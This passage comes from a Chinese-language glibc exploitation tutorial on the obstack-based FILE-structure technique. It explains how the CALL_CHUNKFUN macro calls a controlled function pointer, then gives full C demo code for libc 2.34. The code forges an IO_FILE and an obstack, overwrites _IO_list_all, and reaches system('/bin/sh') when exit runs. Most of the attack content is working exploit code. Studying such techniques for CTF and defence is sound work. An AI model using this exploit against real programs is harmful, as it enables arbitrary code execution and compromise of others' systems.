 ```c
  h->maybe_empty_object = 0;
}
```

### `CALL_CHUNKFUN`宏定义

其中`h`表示的是我们的`obstack结构体指针`，`chunkfun`，`use_extra_arg`和`extra_arg`是属于obstack结构体里面的值

```c
# define CALL_CHUNKFUN(h, size) \
  (((h)->use_extra_arg)                                  \
   ? (*(h)->chunkfun)((h)->extra_arg, (size))                      \  // 存在函数指针调用
   : (*(struct _obstack_chunk *(*)(long))(h)->chunkfun)((size)))
```

### 调用链总结

其实很简单，只要我们在构造的IO_FILE的vtable后面加一个obstack指针，控制其指向的**obstack的属性**就可以了，如`h->chunkfun=&system`与`h->extra_arg=&bin_sh`

当然了，也要你构造的IO_FILE能调用`_IO_obstack_xsputn`函数

## Demo调试

这个Demo是我按照大佬的调用思路去写的，走的是exit调用IO，事先将IO_list_all改成了我们的fake_IO_FILE

> libc版本2.34_3.2

### 源码

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	size_t *p1 = malloc(0x420);

	size_t *fake_io;
	fake_io=p1-2;

	size_t put_addr = &puts;
	size_t lib_base = put_addr - 0x80ef0;
	size_t IO_list_all = lib_base + (0x7ffff7fb4660 - 0x7ffff7d9a000);
	size_t _IO_obstack_jumps_addr = lib_base + (0x7ffff7fb03c0 - 0x7ffff7d9a000);
	size_t sys = lib_base + (0x7ffff7deaae0 - 0x7ffff7d9a000);
	size_t bin_sh = lib_base + (0x7ffff7f71cba - 0x7ffff7d9a000);
	
	//make fake_IO
	//*fake_io = 0x800;
	*(fake_io+0x28/8)=0x1;				//fp->_IO_write_ptr > fp->_IO_write_base
	*(fake_io+0xd8/8)=_IO_obstack_jumps_addr + 0x20;// call _IO_obstack_xsputn
	*(fake_io+0xe0/8)=fake_io+0xf0/8;	//obstack
	
	size_t *fake_obstack = fake_io+0xf0/8;
	//make obstack
	*(fake_obstack+0x38/8)=sys;			//h->chunkfun
	*(fake_obstack+0x48/8)=bin_sh;		//h->extra_arg
	*(fake_obstack+0x50/8)=1;			//h->use_extra_arg
	
    //change IO_list_all
	size_t *p2 = (size_t *)IO_list_all;
	*p2 = fake_io;
	exit(0);

}
```